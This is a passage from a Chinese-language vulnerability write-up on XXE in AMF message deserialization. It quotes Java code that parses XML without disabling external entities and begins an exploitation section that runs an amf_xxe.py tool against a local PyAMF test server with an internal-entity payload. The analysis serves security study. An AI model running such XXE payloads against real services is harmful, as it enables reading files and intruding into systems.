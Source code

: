 可以看到如上代码最后的readXML实现，xml被传入至stringToDocument方法中，该方法属于XMLUtil类。

**XMLUtil_stringToDocument.java**

```
/*     */ 
/*     */   public static Document stringToDocument(String xml, boolean nameSpaceAware)
/*     */   {
/* 116 */     ClassUtil.validateCreation(Document.class);
/*     */     
/* 118 */     Document document = null;
/*     */     try
/*     */     {
/* 121 */       if (xml != null)
/*     */       {
/* 123 */         StringReader reader = new StringReader(xml);
/* 124 */         InputSource input = new InputSource(reader);
/* 125 */         DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
/* 126 */         factory.setNamespaceAware(nameSpaceAware);
/* 127 */         factory.setValidating(false);
/* 128 */         DocumentBuilder builder = factory.newDocumentBuilder();
/*     */         
/* 130 */         document = builder.parse(input);
/*     */       }
/*     */     }
/*     */     catch (Exception ex)
/*     */     {
/* 135 */       throw new MessageException("Error deserializing XML type " + ex.getMessage());
/*     */     }
/*     */     
/* 138 */     return document;
/*     */   }
/*     */ }

```

当DocumentBuilder由DocumentBuilderFactory所创建时，外部实体的解析默认情况下是被允许的，开发者需要自己去配置解析器以避免XXE漏洞：（factory.setExpandEntityReferences(false);）。由于上面的代码并没有禁止外部实体的解析，因而产生了XXE。相关可参考：[http://security.tencent.com/index.php/blog/msg/69](http://security.tencent.com/index.php/blog/msg/69)

0x02 漏洞利用之一（PyAMF）
=====

以下的python脚本（[http://www.agarri.fr/docs/amf_srv.py](http://www.agarri.fr/docs/amf_srv.py)）将会运行一个在线解析AMF的服务，当然你需要安装PyAMF模块，你可以使用`pip install pyamf`来安装，或者是从github获取一份代码（[https://github.com/hydralabs/pyamf](https://github.com/hydralabs/pyamf)）后使用`python setup.py install`来安装；Ubuntu下也可以用`apt-get install python-pyamf`。这里，所运行的PyAMF注册了2个服务，其中一个是echo。首先用原作者所编写好的`amf_xxe.py`来对所架设的PyAMF服务进行测试。

```
$ ./amf_xxe.py http://192.168.22.201:8081/ echo internal
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'echo'
[+] Payload 'internal': '<!DOCTYPE x [ <!ENTITY foo "Some text"> ]><x>Internal entity: &foo;</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onResult..null......C<x>Internal entity: Some text</x>
[+] Done

```
